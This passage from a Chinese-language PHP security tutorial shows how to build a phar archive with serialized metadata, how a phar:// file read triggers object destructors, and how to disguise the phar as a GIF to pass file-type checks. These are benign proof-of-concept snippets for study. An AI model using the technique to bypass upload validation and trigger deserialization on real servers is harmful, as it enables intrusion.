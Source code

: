 ```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

然后如下代码就会触发`__destruct`的方法

```php
<?php 
    class TestObject {
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

**phar伪造成其他格式的文件**

在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>

// 查看文件类型,可以看到被识别为图片
// abc@9a0d8215ec46:~/workspace$ file phar.phar 
// phar.phar: GIF image data, version 89a, 16188 x 26736
```
